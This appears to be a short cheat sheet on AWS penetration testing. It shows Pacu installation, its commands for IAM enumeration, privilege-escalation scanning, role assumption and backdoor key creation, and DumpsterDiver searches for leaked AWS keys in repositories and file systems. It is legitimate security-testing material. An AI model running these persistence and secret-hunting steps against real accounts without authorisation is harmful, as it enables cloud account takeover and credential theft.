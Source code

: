 #### Pacu Installation and Setup
```bash
# Install Pacu
git clone https://github.com/RhinoSecurityLabs/pacu.git
cd pacu && bash install.sh

# Start Pacu
python3 pacu.py

# Create new session
new_session session_name

# Set AWS credentials
set_keys --access-key-id AKIAIOSFODNN7EXAMPLE --secret-access-key wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
```

#### Key Pacu Modules
- **enum_users_roles_policies_groups**: Enumerate IAM resources
- **privesc_scan**: Identify privilege escalation opportunities
- **backdoor_users_keys**: Create backdoor access
- **enum_secrets**: Find secrets in various AWS services
- **lateral_movement**: Move between AWS accounts

#### IAM Role Hijacking Techniques
```bash
# Enumerate IAM roles
run enum_users_roles_policies_groups

# Check for privilege escalation
run privesc_scan

# Attempt role assumption
run assume_role --role-arn arn:aws:iam::123456789012:role/TargetRole

# Create persistence
run backdoor_users_keys
```

### Scanning AWS Access Keys Using DumpsterDiver

#### DumpsterDiver Overview
- **Purpose**: Search for secrets in various data sources
- **Sources**: Git repositories, file systems, databases
- **Detection**: AWS keys, API keys, passwords, certificates
- **Automation**: Bulk scanning and analysis

#### DumpsterDiver Usage
```bash
# Install DumpsterDiver
pip install dumpsterdiver

# Search local directory
dumpsterdiver -p /path/to/search --aws

# Search Git repository
dumpsterdiver -g https://github.com/user/repo --aws

# Advanced search options
dumpsterdiver -p /path --aws --entropy --min-key 20
```
